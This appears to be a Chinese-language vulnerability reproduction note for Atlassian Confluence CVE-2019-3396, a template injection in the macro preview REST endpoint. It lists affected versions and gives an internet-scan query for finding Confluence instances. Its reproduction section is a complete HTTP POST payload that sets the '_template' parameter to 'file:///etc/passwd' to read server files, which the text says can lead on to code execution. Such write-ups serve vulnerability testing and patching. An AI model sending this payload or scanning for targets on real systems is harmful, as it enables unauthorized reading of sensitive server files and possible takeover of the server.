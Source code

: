 # Atlassian Confluence preview SSTI模版注入漏洞 CVE-2019-3396

## 漏洞描述

Confluence是一个专业的企业知识管理与协同软件，常用于构建企业wiki。 利用该漏洞可以读取服务器上任意文件，进而可以包含恶意文件来执行代码。可能造成敏感信息泄露，服务器被控制等严重后果。

## 漏洞影响

<a-checkbox checked>Atlassian Atlassian Confluence < 6.6.12</a-checkbox></br>

<a-checkbox checked>Atlassian Atlassian Confluence 6.7.0-6.12.2</a-checkbox></br>

<a-checkbox checked>Atlassian Atlassian Confluence < 6.13.3</a-checkbox></br>

<a-checkbox checked>Atlassian Atlassian Confluence < 6.14.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ATLASSIAN-Confluence"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1630488806824-a8205673-933b-434b-8050-abcde3ef3e97.png)

发送请求包

```php
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: cqq.com:443
Connection: close
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3670.0 Safari/537.36
Referer: https://cqq.com/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 168

{"contentId":"786457","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"file:///etc/passwd"}}}
```